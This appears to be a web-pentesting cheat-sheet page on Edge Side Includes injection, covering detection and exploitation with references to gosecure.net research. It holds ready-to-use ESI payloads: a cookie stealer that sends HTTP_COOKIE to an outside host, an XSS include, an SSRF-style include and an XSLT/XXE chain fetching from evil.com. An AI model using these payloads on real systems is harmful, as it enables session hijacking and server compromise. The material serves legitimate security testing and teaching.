

# Edge-Side Includes

Edge Side Includes (`ESI`) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content, which would be otherwise unstorable through traditional caching protocols. ESI tags are used to instruct an HTTP surrogate (reverse-proxy, caching server, etc.) to fetch additional information regarding a web page with an already cached template. This information may come from another server before rendering the web page to the end-user. ESI enable fully cached web pages to include dynamic content. 

## ESI Injection

Edge-Side Include Injection occurs when an attacker manages to reflect malicious ESI tags in the HTTP Response, in a very similar way as [Server Side Template Injection (SSTI)](Server%20Side%20Template%20Injection%20(SSTI).md) and [Server-Side Includes Injection (SSI)](Server-Side%20Includes%20Injection%20(SSI).md).



We can determine if a server is using ESI by inspecting response headers in search for `Surrogate-Control: content="ESI/1.0"`

Some useful ESI tags are:
```xml
// Basic detection
hell<!--esi-->o
// If previous is reflected as "hello", it's vulnerable

// Basic detection OAST
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

Common attacks delivered trough ESI are: [^1]
- [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md)
- [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) and [Evading Restrictions](Evading%20Restrictions.md)
- Bypass HttpOnly Cookie Flag
- Header Injection [^header-injection]

[^1]: [Beyond XSS: Edge Side Include Injection](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/), gosecure.net
[^header-injection]: [Header Injection and Limited SSRF (CVE-2019-2438)](<https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/#:~:text=3.%20Header%20Injection%20and%20Limited%20SSRF%20(CVE%2D2019%2D2438)>), gosecure.net


In some cases, we can achieve remote code execution when the application processing ESI directives supports [XSLT](Extensible%20Stylesheet%20Language%20Transformations%20Injection%20(XSLT%20Injection).md), a dynamic language used to transform XML files. In that case, we can pass `dca=xslt` to the payload. The XML file selected will be processed with the possibility of performing [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md) with some limitations. [^xslt2rce]

[^xslt2rce]: [XSLT-to-RCE](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/#:~:text=by%20the%20attacker.-,XSLT%20to%20RCE,-The%20XSLT%20processing), gosecure.net

```xml
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />

<!-- XML payload -->

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```

ESI is supported by different software and HTTP web server surrogates, so everyone of them have **implementation variations** [^2] determining the kind of attack vector and exploitation path.

[^2]: [Implementation Variations](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/#:~:text=exfiltrated%20without%20Javascript.-,Implementation%20Variations,-As%20stated%20earlier), gosecure.net


# External References

More references can be found at:
- [Edge Side Inclusion - HackTrick](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection#edge-side-inclusion)
- [Exploring the World of ESI Injection](https://infosecwriteups.com/exploring-the-world-of-esi-injection-b86234e66f91)